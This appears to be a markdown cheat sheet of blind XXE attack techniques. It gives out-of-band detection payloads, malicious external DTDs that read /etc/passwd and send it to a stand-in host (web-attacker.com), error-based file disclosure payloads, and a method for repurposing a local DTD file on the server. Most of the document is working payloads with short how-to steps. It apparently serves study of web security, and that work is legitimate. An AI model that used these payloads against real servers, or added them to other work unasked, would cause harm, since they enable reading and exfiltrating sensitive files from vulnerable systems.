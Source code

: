 # Detecting blind [[XXE]] using out-of-band (OAST) techniques

Use HTTP request:
```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://bupr-collaborator.web-attacker.com"> ]>
```
Monitor if there any DNS or HTTP requests to your URL.

If entities are blocked, due to input validation, you might be able to use XML parameter entities instead which can be referenced within DTO only.
**Declaration example**:
```xml
<!ENTITY % myparameterentity "my parameter entity value" >
```
**Usage**:
```
%myparameterentity;
```
**Example**:
```xml
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> %xxe; ]>
```

# Exploiting blind XXE to exfiltrate data out-of-band
Malicous external DTD:
```dtd
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">
%eval;
%exfiltrate;
```
Host it on attacker machine:
`http://web-attacker.com/malicious.dtd`
XXE payload:
```dtd
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://web-attacker.com/malicious.dtd"> %xxe;]>
```
Insert it between `<xml />` definition and first xml tag. No need to use entity inside xml, just DTD.

Data contained newlines won't work because of URL validation, but it's still possible to use `/etc/hostname` or FTP can be used instead of HTTP.

## Exploiting blind XXE to retrieve data via error messages
Malicious external DTD:
```dtd
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>"> %eval;
%error;
```
Host it on attacker machine:
`http://web-attacker.com/malicious.dtd`
XXE payload:
```dtd
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://web-attacker.com/malicious.dtd"> %xxe;]>
```
Insert it between `<xml />` definition and first xml tag. No need to use entity inside xml, just DTD.

## Exploiting blind XXE by repurposing a local DTD
out-of-band interactions are blocked
you can't load an external DTD from a remote server. 

Error-based from within an internal DTDa, provided the XML parameter entity that they use is redefining an entity that is declared within an external DTD. 

The attack involves invoking a DTD file that happens to exist on the local filesystem and repurposing it to redefine an existing entity in a way that triggers a parsing error containing sensitive data. 
#### Example
Assume we have `/usr/local/app/schema.dtd` on the system.
```xml
<!DOCTYPE foo [
<!ENTITY % local_dtd SYSTEM "file:///usr/local/app/schema.dtd">
<!ENTITY % custom_entity '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]>
```

#### Locating an existing DTD file to repurpose
For example, Linux systems using the GNOME desktop environment often have a DTD file at `/usr/share/yelp/dtd/docbookx.dtd`
Test if file xists:
```xml
<!DOCTYPE foo [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
%local_dtd;
]>
```
#### TLDR
1. Import local DTD
2. Redefine entity
3. Trigger an error message